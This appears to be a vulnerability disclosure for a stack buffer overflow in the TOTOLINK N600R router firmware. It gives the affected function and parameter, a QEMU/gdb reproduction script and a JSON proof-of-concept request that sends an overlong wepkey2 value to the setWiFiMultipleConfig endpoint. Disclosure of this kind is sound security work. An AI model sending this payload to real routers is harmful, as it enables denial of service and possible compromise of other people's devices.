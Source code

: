 # Bug Report: Buffer Overflow in TOTOLINK N600R Router
A buffer overflow vulnerability has been identified in the TOTOLINK N600R router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code within the setWiFiMultipleConfig function in cstecgi.cgi. It extract the `wepkey2` parameter into `src` and pass it into `strcpy` function without bound check. When `wepkey2` is specified with excessive data, the buffer overflow occurs during string concatenation operations.
![alt text](image-3.png)

![alt text](image-2.png)

## poc
We set a breakpoint before the strcpy call and examined the memory state both before and after the out-of-bounds write. The memory dump clearly demonstrates that a buffer overflow occurred.
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```bash
./content_poc.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

### wepkey2.sh
```bash
#!/bin/bash
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi_wepkey2.cgi  < wepkey2.json 
```

### content_poc.json
```json
{
    "topicurl" : "UploadCustomModule/setWiFiMultipleConfig",
    "doaction" : "1",
    "ssid2" : "11111111111111111111llllllllllllllllllllabcdDOIT",
    "wepkey2" : "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",
    "keyFormat" : "3",
    "authMode" : "OPEN"
}
```